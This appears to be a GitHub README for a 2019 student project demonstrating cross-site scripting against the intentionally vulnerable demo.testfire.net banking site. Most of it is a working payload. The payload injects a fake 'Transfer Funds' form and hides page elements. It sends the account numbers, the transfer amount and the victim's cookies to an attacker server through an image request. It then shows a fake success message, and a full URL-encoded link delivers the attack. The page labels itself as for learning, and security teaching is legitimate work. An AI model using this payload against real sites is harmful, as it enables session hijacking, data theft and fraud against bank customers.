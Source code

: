 # About
Cross Site Scripting attack on an already logged in user.
This is done on a website which is made intentionally vulnerable.
https://demo.testfire.net/<br>
**This is only for learning purposes.**
## Note:
Below is the script, execute this on any input form eg (Search, feedback) of the given website.
You must have local server setup, here it is node server localhost:3000. code is uploaded clone it and run on your system.

Here we are getting user's money transfer information by using fake transfer form which users would not be able notice and they will transfer money to the accounts and all those transfer details are sent to the local server of the attacker.

# Execution

```javascript
<form id="tForm" name="tForm" method="post" action="doTransfer" onsubmit="return (confirminput(tForm));"><h1>Transfer Funds</h1><table width="100%" cellspacing="0" cellpadding="1" border="0"><tbody><tr><td><strong>From Account:</strong></td><td><select size="1" id="fromAccount" name="fromAccount"><option value="800000">800000 Corporate</option><option value="800001">800001 Checking</option></select></td></tr><tr><td><strong>To Account:</strong></td><td><select size="1" id="toAccount" name="toAccount"><option value="800000">800000 Corporate</option><option value="800001">800001 Checking</option></select></td></tr><tr><td><strong> Amount to Transfer:</strong></td><td><input type="text" id="transferAmount" name="transferAmount"></td></tr><tr><td colspan="2" align="center"><input type="button" name="transfer" onclick= "showTransaction()" value="Transfer Money" id="transfer"></td></tr><tr><td colspan="2">&nbsp;</td></tr><tr><td colspan="2" align="center"><span id="_ctl0__ctl0_Content_Main_postResp" align="center"><span style="color: Red"></span></span></span></td></tr></tbody></table></form>

<script type="text/javascript">
    document.getElementsByClassName("fl")[0].children[0].textContent = "";
    document.getElementsByClassName("fl")[0].children[1].textContent = "";
    var today = new Date();
    var date = today.getFullYear()+'-'+(today.getMonth()+1)+'-'+today.getDate();
    var time = today.getHours() + ":" + today.getMinutes() + ":" + today.getSeconds();
    var dateTime = date+' '+time;
    function showTransaction()
    {
        new Image().src='http://localhost:3000/?FromAccount='+document.forms["tForm"].fromAccount.value
        +'&ToAccount='+document.forms["tForm"].toAccount.value
        +'&TransferMoney='+document.forms["tForm"].transferAmount.value+'&'+document.cookie;
        
        document.getElementById("_ctl0__ctl0_Content_Main_postResp").children[0].textContent = document.forms["tForm"].transferAmount.value
        +".0 was successfully transferred from Account "+ document.forms["tForm"].fromAccount.value+ " into Account "
        + document.forms["tForm"].toAccount.value + " at "+dateTime;
    }   
</script>
```

## Direct link to get to the fake form
<a href="https://demo.testfire.net/search.jsp?query=%3Cform+id%3D%22tForm%22+name%3D%22tForm%22+method%3D%22post%22+action%3D%22doTransfer%22+onsubmit%3D%22return+%28confirminput%28tForm%29%29%3B%22%3E%3Ch1%3ETransfer+Funds%3C%2Fh1%3E%3Ctable+width%3D%22100%25%22+cellspacing%3D%220%22+cellpadding%3D%221%22+border%3D%220%22%3E%3Ctbody%3E%3Ctr%3E%3Ctd%3E%3Cstrong%3EFrom+Account%3A%3C%2Fstrong%3E%3C%2Ftd%3E%3Ctd%3E%3Cselect+size%3D%221%22+id%3D%22fromAccount%22+name%3D%22fromAccount%22%3E%3Coption+value%3D%22800000%22%3E800000+Corporate%3C%2Foption%3E%3Coption+value%3D%22800001%22%3E800001+Checking%3C%2Foption%3E%3C%2Fselect%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd%3E%3Cstrong%3ETo+Account%3A%3C%2Fstrong%3E%3C%2Ftd%3E%3Ctd%3E%3Cselect+size%3D%221%22+id%3D%22toAccount%22+name%3D%22toAccount%22%3E%3Coption+value%3D%22800000%22%3E800000+Corporate%3C%2Foption%3E%3Coption+value%3D%22800001%22%3E800001+Checking%3C%2Foption%3E%3C%2Fselect%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd%3E%3Cstrong%3E+Amount+to+Transfer%3A%3C%2Fstrong%3E%3C%2Ftd%3E%3Ctd%3E%3Cinput+type%3D%22text%22+id%3D%22transferAmount%22+name%3D%22transferAmount%22%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd+colspan%3D%222%22+align%3D%22center%22%3E%3Cinput+type%3D%22button%22+name%3D%22transfer%22+onclick%3D+%22showTransaction%28%29%22+value%3D%22Transfer+Money%22+id%3D%22transfer%22%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd+colspan%3D%222%22%3E%26nbsp%3B%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd+colspan%3D%222%22+align%3D%22center%22%3E%3Cspan+id%3D%22_ctl0__ctl0_Content_Main_postResp%22+align%3D%22center%22%3E%3Cspan+style%3D%22color%3A+Red%22%3E%3C%2Fspan%3E%3C%2Fspan%3E%3C%2Fspan%3E%3C%2Ftd%3E%3C%2Ftr%3E%3C%2Ftbody%3E%3C%2Ftable%3E%3C%2Fform%3E++%3Cscript+type%3D%22text%2Fjavascript%22%3E+++++document.getElementsByClassName%28%22fl%22%29%5B0%5D.children%5B0%5D.textContent+%3D+%22%22%3B+++++document.getElementsByClassName%28%22fl%22%29%5B0%5D.children%5B1%5D.textContent+%3D+%22%22%3B+++++var+today+%3D+new+Date%28%29%3B+++++var+date+%3D+today.getFullYear%28%29%2B%27-%27%2B%28today.getMonth%28%29%2B1%29%2B%27-%27%2Btoday.getDate%28%29%3B+++++var+time+%3D+today.getHours%28%29+%2B+%22%3A%22+%2B+today.getMinutes%28%29+%2B+%22%3A%22+%2B+today.getSeconds%28%29%3B+++++var+dateTime+%3D+date%2B%27+%27%2Btime%3B+++++function+showTransaction%28%29+++++%7B+++++++++new+Image%28%29.src%3D%27http%3A%2F%2Flocalhost%3A3000%2F%3FFromAccount%3D%27%2Bdocument.forms%5B%22tForm%22%5D.fromAccount.value+++++++++%2B%27%26ToAccount%3D%27%2Bdocument.forms%5B%22tForm%22%5D.toAccount.value+++++++++%2B%27%26TransferMoney%3D%27%2Bdocument.forms%5B%22tForm%22%5D.transferAmount.value%2B%27%26%27%2Bdocument.cookie%3B++++++++++++++++++document.getElementById%28%22_ctl0__ctl0_Content_Main_postResp%22%29.children%5B0%5D.textContent+%3D+document.forms%5B%22tForm%22%5D.transferAmount.value+++++++++%2B%22.0+was+successfully+transferred+from+Account+%22%2B+document.forms%5B%22tForm%22%5D.fromAccount.value%2B+%22+into+Account+%22+++++++++%2B+document.forms%5B%22tForm%22%5D.toAccount.value+%2B+%22+at+%22%2BdateTime%3B+++++%7D+++++%3C%2Fscript%3E">Demo Link for fake Transaction</a>

## References
* https://pentest-tools.com/blog/xss-attacks-practical-scenarios/
* http://form.guide/web-form/submit-form-multiple-scripts.html

# Authors

Ashkan Es Haghi <br>
Alexander Grissinger <br>
Muddassir Hussain <br>

# Project Date
08.11.2019
